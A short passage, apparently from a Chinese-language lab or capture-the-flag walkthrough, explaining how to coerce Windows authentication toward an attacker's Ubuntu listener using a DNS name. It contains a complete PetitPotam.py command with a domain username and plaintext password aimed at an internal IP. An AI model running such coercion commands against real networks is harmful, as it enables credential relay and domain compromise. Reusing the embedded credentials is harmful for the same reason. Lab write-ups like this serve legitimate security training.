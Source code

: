 ![image-20241118204042749](images/16.png)

强制认证，ubuntu的80端口，最后流量会转发到本地，此处不可使用ip进行强制认证，使用DNS解析进行强制认证,此处的`@`符号前为主机名，后为端口号

```
python3 PetitPotam.py -u yangmei -p 'xrihGHgoNZQ' -d xiaorang.lab ubuntu@80/pwn.txt 172.22.11.26
```

![image-20241118204204088](images/17.png)
